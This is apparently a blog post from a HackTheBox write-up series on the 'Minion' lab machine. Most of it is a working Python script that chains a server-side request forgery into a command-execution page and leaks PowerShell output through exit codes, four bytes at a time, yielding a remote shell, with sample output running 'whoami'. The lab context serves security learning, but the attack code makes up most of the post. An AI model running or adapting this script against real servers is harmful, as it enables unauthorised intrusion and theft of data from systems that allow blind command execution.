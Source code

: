 ```yaml
---
layout: post
title:  "HackTheBox - Minion Error Code Exfiltration"
date:   2018-04-16 01:00:00 +0100
categories: [hackthebox]
description: "For I was Blind but now I see!"
image:
  feature: minion.jpg
  credit:

---
```


This is a writeup of an alternative technique for [Minion](https://www.hackthebox.eu/home/machines/profile/109), which involves exfiltrating data via error codes. All credits for this technique go to [@m0noc](https://twitter.com/overtsecrecy) who actually made this work and used it to pwn Minion.

The Situation
-------------
In Minion we had command execution which returned the exit code of the command called. 0 for success and 1 for failure. In reality, the exit code is entirely controllable by the caller of any process. e.g.
```
PS C:\Users\Booj> powershell -c 'exit 1234'
PS C:\Users\Booj> echo $lastexitcode
1234
```
The error code is a 32 bit signed integer so we have a maximum of 4 bytes. Since a character only takes up a single byte (ascii), we can encode any sequence of characters within a sequence of error codes.

Proof of Concept
--------------
In this proof of concept we run a command and save the result to a file, returning as the first exit code the length of the result. We then sequentially send commands to fetch and output each 4 byte sequence as an error code, decoding on our end and yielding a basic shell.
```python
import requests
import sys
import urllib2

'''
Command Creation
'''
def get_cmd_length(command):
    cmd =  '$command = (Invoke-Command -ScriptBlock {{{0}}} | Out-String).TrimStart().TrimEnd(); $command | Out-File $env:temp/merror.txt -encoding ASCII ;exit $command.length'.format(command)
    return cmd

def error_exfil(command, output_length):
    output_length = int(output_length)
    for start in range(0, int(output_length), 4):
        if (output_length - start) < 4:
            amount_to_fetch = output_length-start
        else:
            amount_to_fetch = "4"
        run_cmd = '$fs = Get-Content $env:temp/merror.txt -Encoding Byte -ReadCount 0; $bytearray = $fs[{0}..{1}]; $hex = [System.BitConverter]::ToString($bytearray) -replace \'-\',\'\';\
echo $hex; exit ([convert]::ToInt32($hex, 16));'.format(start, int(start)+int(amount_to_fetch)-1)
        yield run_cmd

def decode_error(errorval):
    val = hex(int(errorval))[2:]
    if len(val)%2 !=0:
        val = '0'+ val

    return val.decode('hex')

'''
Command Sending and Receiving
'''

def run_on_minion(command):

    url = 'http://10.10.10.57:62696' 
    base_url = "/test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd=" 
    pshell = "powershell -Command \"{0}\"".format(command)
    req = requests.get(url+base_url+urllib2.quote(pshell)) 
    #TODO filter this properly 
    result = req.text 
    error_code = [x.split('=')[1] for x in result.split('\n') if "Exit Status" in x][0]
    return error_code 

'''
Main Loop
'''

def main():
    while True:
        cmd = raw_input('PS>')
        len_cmd = get_cmd_length(cmd)
        length_of_command = run_on_minion(len_cmd)
        for torun in error_exfil(cmd, length_of_command):
            errorval = run_on_minion(torun)
            decodedval = decode_error(errorval)
            sys.stdout.write(decodedval)
            sys.stdout.flush()
        sys.stdout.write('\n')
        sys.stdout.flush()


if __name__ == '__main__':
    main()
```
It should work as is and give us a very slow shell!
```
root@kali:~# python minionerr.py 
PS>whoami
iis apppool\defaultapppool
```
That's all folks!
